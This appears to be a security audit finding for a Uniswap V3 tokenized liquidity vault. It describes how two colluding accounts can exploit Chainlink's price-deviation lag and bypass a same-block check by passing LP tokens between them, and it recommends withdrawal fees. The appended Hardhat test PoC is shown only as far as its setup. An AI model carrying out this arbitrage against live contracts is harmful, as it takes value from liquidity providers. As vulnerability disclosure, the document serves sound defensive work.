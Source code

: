 ## Severity

**Impact:** Medium

**Likelihood:** Medium

## Description

The chainlink oracle will submit a new price only when the price fluctuation reaches the deviation threshold. For example, the deviation threshold of ETH/USD is `0.5%`. Attackers can use this to arbitrage. The specific scenario is:

1. Attacker1 deposits some USDC
2. The oracle updates the ETH/USD price to increase by `0.5%`
3. Attacker1 sends all LPs to Attacker2 to bypass `checkLastBlockAction`
4. Attacker2 withdraws all LPs and get ETH + USDC
5. Attacker2 returns the tokens to Attacker1

The above steps can be completed in the same block. The attacker bought ETH at a lower price, and he can sell ETH on another DEX. For more detailed examples, please see PoC.

## Recommendations

Let the withdraw function charge some fees

## Appendix: PoC

```diff
diff --git a/test/zap/uniV3tokenizedLP.test.ts b/test/zap/uniV3tokenizedLP.test.ts
index b6e17af9..f8dd1381 100644
--- a/test/zap/uniV3tokenizedLP.test.ts
+++ b/test/zap/uniV3tokenizedLP.test.ts
@@ -162,6 +162,89 @@ describe('UniV3TokenizedLP:', function () {
                };
        }

+       async function blockNumber() {
+               return (await hre.ethers.provider.getBlock("latest")).number
+       }
+
+       it('attacker can exploit oracle price differences to arbitrage', async () => {
+               // 1. Init the PoC
+               console.log(">>>>>>>>>> Init the PoC");
+               const {
+                       factory,
+                       router,
+                       quoter,
+                       weth,
+                       usdc,
+                       samplePool,
+                       usdcUsdOracle,
+                       wethUsdOracle,
+                       uV3TokenizedLp,
+                       creator,
+                       user1,
+                       user2,
+                       user3
+               } = await loadFixture(setupFixture);
+               await initialRebalance(uV3TokenizedLp);
+               await uV3TokenizedLp.autoRebalance(true);
+
+               const [,,,, attacker1, attacker2] = await ethers.getSigners();
+               await usdc.mint(attacker1.address, ethers.utils.parseUnits('10000', 6));
```